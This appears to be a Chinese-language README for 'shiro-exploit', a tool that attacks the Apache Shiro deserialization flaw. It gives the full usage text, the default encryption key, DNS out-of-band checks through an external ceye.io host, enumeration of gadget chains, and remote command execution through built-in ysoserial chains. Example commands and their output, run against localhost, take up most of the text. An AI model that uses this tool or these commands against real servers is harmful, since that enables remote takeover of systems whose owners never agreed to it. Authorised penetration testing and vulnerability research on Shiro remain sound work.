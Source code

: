 > 郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。

## 使用方法

```bash
➜  ~ shiro-exploit --help
Usage: shiro-exploit [--key <key>] [-m <mode>] [-t <target>] [-s <ser>] [--file <file>] [--keys <keys>] [--csv <csv>] [--proxy <proxy>] [--timeout <timeout>] [--thread <thread>] [--chain] [--exploit] [--dns <dns>] [-p <payload>] [-c <command>] [--echo-name <echo-name>] [--command-name <command-name>] [-l]

shiro-exploit

Options:
  --key             you can specify known keys
  -m, --mode        apache-shiro encryption algorithm,default: CBC
  -t, --target      the target
  -s, --ser         serialize file
  --file            read the target from the file
  --keys            read the key from the file
  --csv             export to the csv file
  --proxy           proxy to use for requests
                    (ex:[http(s)|socks5(h)]://host:port)
  --timeout         set request timeout
  --thread          number of concurrent threads
  --chain           enum chain mode
  --exploit         exploit mode
  --dns             dns identifier, default: 981tzg.ceye.io
  -p, --payload     select a payload
  -c, --command     command to execute
  --echo-name       tomcat echo request header name
  --command-name    tomcat command request header name
  -l, --list        list all payload
  --help            display usage information

```

## 详细参数

- `--key`指定Key，默认`kPH+bIxk5D2deZiIxcaaaA==`
- `-m`指定加密模式，默认`CBC`,可选：`GCM`
- `-t`单个目标
- `-s`读入ysoserial生成的文件作为payload
- `--file`从文件读入目标
- `--keys`从文件读入key
- `--csv`导出到csv文件
- `--exploit`利用模式，爆破出key后，如果开启exploit模式会读入ysoserial生成的文件作为payload，如果`--ser`
  参数为空，则为`--dns`作为URL_DNS的参数生成payload
- `--dns`验证的DNS服务器，请求为目标的`主机名_端口.你的DNS记录服务器`，默认为`981tzg.ceye.io`
- `-p`使用内置payload，配合`-c`或者`--dns`和`--echo-name`，`--command-name`，tomcat回显后面再更新
- `-l`列出内置payload
- `--chain`枚举利用链，结果查看DNS记录服务，前缀就是利用链名称。

## 使用ysoserial文件

```bash
➜  ~ shiro-exploit -t http://127.0.0.1:8080 --exploit --ser /home/kali-team/1.ser                 
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=EAEAD8C3FA8884D816F575E55B654694 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

## 使用DNS记录验证漏洞

```bash
➜  ~ shiro-exploit -t http://127.0.0.1:8080 --exploit --dns 981tzg.ceye.io
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=E01994D45911DE55FCE6606CFFF48AC7 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

## 爆破利用链

- 主要利用ping命令带上利用链名称拼接到DNS前缀，如果能在DNS记录中看到说明可以使用该利用链

```bash
➜  ~ shiro-exploit -t http://127.0.0.1:8080 --exploit --dns 981tzg.ceye.io --chain
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=E01994D45911DE55FCE6606CFFF48AC7 | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```

- 查看DNS记录得到可用利用链，说明`bs1`,`cck3`,`cc5`,`cc7`,`cck1`和`cc6`利用链可用

```csv
969227011	bs1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:20
969226980	bs1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:19
969226976	ccK3.127.0.0.1.8080.981tZG.cEYE.Io	127.0.0.1	2022-12-22 13:48:19
969226947	cc5.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226945	cc7.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226936	cCK3.127.0.0.1.8080.981tzg.ceyE.iO	127.0.0.1	2022-12-22 13:48:18
969226932	cck1.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:18
969226818	cc6.127.0.0.1.8080.981tzg.ceye.io	127.0.0.1	2022-12-22 13:48:14
```

## 使用内置ysoserial

- payload来自：(ysoserial_rs)[https://github.com/emo-cat/ysoserial_rs]
- 例如使用利用`commons_collections_k1`链执行命令，使用`-p`指定利用链，`-c`指定要执行的命令

```bash
➜  ~ shiro-exploit -t http://127.0.0.1:8080 --exploit -p cck1 -c "ping qq.com"                                    
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+
| url                                                                     | method | verify | mode | key                      |
+=========================================================================+========+========+======+==========================+
| http://127.0.0.1:8080/login;jsessionid=5FAF1087D2448C017C2959B2AC02CDAF | GET    | true   | CBC  | kPH+bIxk5D2deZiIxcaaaA== |
+-------------------------------------------------------------------------+--------+--------+------+--------------------------+

```